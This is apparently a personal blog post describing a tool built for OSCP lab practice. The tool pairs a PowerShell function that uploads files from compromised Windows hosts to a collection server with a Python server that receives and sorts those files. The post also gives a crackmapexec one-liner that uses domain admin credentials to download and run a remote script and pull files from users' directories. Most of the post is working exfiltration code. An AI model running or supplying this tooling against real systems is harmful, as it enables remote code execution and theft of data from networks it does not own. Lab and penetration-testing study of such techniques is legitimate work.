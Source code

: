 ```yaml
---
title: "Lazy file exfiltration for OSCP labs with powershell python and crackmapexec"
date: 2024-02-08T15:34:30-06:00
categories:
  - blog
tags:
  - exfiltration
  - python
  - powershell
  - OSCP
---
```

<b>Lazy is good when the result is that lazy becomes affordable.</b><br>
Skip to the code. <br><a target="_new" href=https://github.com/jeamajoal/lazy_pwshpy_exfiltrator>Jeamajoal's Lazy PwshPy Exfiltrator</a>

<b>Background:</b><br>
While diving into OSCP labs, I found myself searching through disk contents for clues. Although I'm adept at using the command line, sometimes the ease of navigating folders visually is preferable. Missing crucial details in a lab, likely from being tired, made me decide to find a better solution to avoid such misses.

<b>The Idea:</b><br>
My plan was to automate a simple yet effective process. The goal was to filter and exfiltrate files to a web server where I could easily sift through them. Simplicity was the cornerstone.

<b>Solution:</b><br>
I opted for a Powershell script utilizing Get-ChildItem with a -Filter parameter, coupled with the System.Net.Webclient class for exfiltration. I discovered a Python3 web server by another creator that fit my initial needs and decided to build upon it. Credit to the original creator: <a target="_new" href=https://edepree.com/2014/10/18/lightweight-http-upload-server.html>Lightweight HTTP Upload Server</a>.

<b>Challenge:</b><br>
I needed more than just dumping files into a single folder; I wanted them organized. This meant enhancing the server to handle additional data from my script for better file management.

<b>Check It Out:</b><br>
See the current version on GitHub: <a target="_new" href=https://github.com/jeamajoal/lazy_pwshpy_exfiltrator>Jeamajoal's Lazy PwshPy Exfiltrator</a>. The Powershell script's core functionality is in the upload function, where it sends file data along with the file path, so the server knows where to place the files.

<b>Powershell snippet for uploading files:</b><br>

```powershell

function UploadToWebServer($filepath, $url) {
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true } ;
        $filename = Split-Path $FilePath -Leaf
        $boundary = [System.Guid]::NewGuid().ToString()

        $TheFile = [System.IO.File]::ReadAllBytes($filePath)
        $TheFileContent = [System.Text.Encoding]::GetEncoding('iso-8859-1').GetString($TheFile)

        $id = $env:computername

        $LF = "`r`n"
        $bodyLines = (
            "--$boundary",
            "Content-Disposition: form-data; name=`"path`"$LF",
            $(Split-Path $FilePath),
            "--$boundary",
            "Content-Disposition: form-data; name=`"id`"$LF",
            $id,
            "--$boundary",
            "Content-Disposition: form-data; name=`"filename`"; filename=`"$filename`"",
            "Content-Type: application/json$LF",
            $TheFileContent,
            "--$boundary--$LF"
        ) -join $LF

        Invoke-RestMethod $url -Method POST -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines
    }
    
```

<b>Python server side for handling the data:</b><br>

```python
def deal_post_data(self):
        global serverpath 
        line = b'' #Initialize line data as byte
        file_data = b''  # Initialize file_data as an empty byte string
        in_file_data = False #Initialize in file as boolean
        content_type = self.headers['content-type']
        if not content_type:
            return (False, "Content-Type header doesn't contain boundary")
        boundary = content_type.split("=")[1]
        boundary = boundary.replace('"','').encode()
        end_boundary = boundary + b"--"
        totalbytes = int(self.headers['content-length'])
        remainbytes = totalbytes
        #modify serverpath with alternate upload dir  
        if uDir:
            serverpath = os.path.join(os.getcwd(),uDir)
        else:
            serverpath = os.getcwd()
   
        #Process request
        while remainbytes > 0:
            line = self.rfile.readline()
            remainbytes -= len(line)

            if in_file_data:
                if boundary in line:
                    in_file_data = False
                    file_data = file_data[:-2]  # Remove the last CRLF before boundary
                    if end_boundary in line:
                        break  # End of data
                else:
                    file_data += line
                    continue

            if end_boundary in line:
                        break  # End of data
            if boundary in line:
                line = self.rfile.readline()
                remainbytes -= len(line)
                id = re.findall(r'Content-Disposition.*name="id"', line.decode())
                reqpath = re.findall(r'Content-Disposition.*name="path"', line.decode())
                fn = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                if fn:
                    in_file_data = True
                    file_name = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                    file_data = file_data[:-2]
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)

                elif reqpath:
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    reqpath = line
                    ip_address = self.client_address[0]
                    #remove \r\n
                    reqpathstr = reqpath.decode()
                    reqpathstr = reqpathstr.replace("\r","")
                    reqpathstr = reqpathstr.replace("\n","")
                    if reqpathstr.startswith('/') or reqpathstr.startswith('\\'):
                        reqpathstr = reqpathstr.strip('/')
                        reqpathstr = reqpathstr.strip('\\')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('//','/')
                    reqpathstr = reqpathstr.replace(':','')
                    reqpathstr = os.path.join(ip_address,reqpathstr)
                    finalpath = os.path.join(serverpath,reqpathstr)

                elif id:
                    #print(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = line.decode()
                    line = line.replace("\r","")
                    line = line.replace("\n","")
                    newid = line
                    
        if finalpath:
            serverpath = finalpath                    
        
        if newid:
            serverpath = serverpath.replace(ip_address,newid)

        serverpath = serverpath.lower()
        if not os.path.exists(serverpath):
            os.makedirs(serverpath)

        fn = os.path.join(serverpath, file_name[0])
        #print(f'Final upload path: {serverpath}')
        try:
            with open(fn, 'wb') as out:
                out.write(file_data)
            return ('succeeded',self.client_address,fn )
        except:
            return ('Failed',self.client_address,fn )
```

<b>The Fun Part:</b>

Start your postserver.py
We set the ip, port, and relative upload directory. (I serve files from the curent directory and upload to a sub-directory)

```shell
python3 python/postserver.py -b 0.0.0.0 -p 8443 -u uploads
```
This blog talks about mass exfiltration so we will assume you are like me and just have to run this once you find Domain Admin creds becasue you just want to see it happen. :)
We will use crackmapexec to source the upload.ps1 from our server and run it. This command is looking for the proofs but in the OSCP labs i use this as an initial peek into the Users directory on Windows boxes becasue from my experience offsec likes to put the juicy there or the root of the drive.

```shell
crackmapexec smb $(cat nodes.txt) -u DomainAdminUser -p DAPassword -x 'powershell.exe -command "iex (iwr http://192.168.45.242:8443/tools/upload.ps1 -usebasicparsing);exfil -dir c:\users\ -recurse -include '*local.txt,*proof.txt' -url http://192.168.45.242:8443 "'
```
<b>LOOT!!!</b>
![Loot Flows In](/_posts/res/PostServer.png?raw=true)



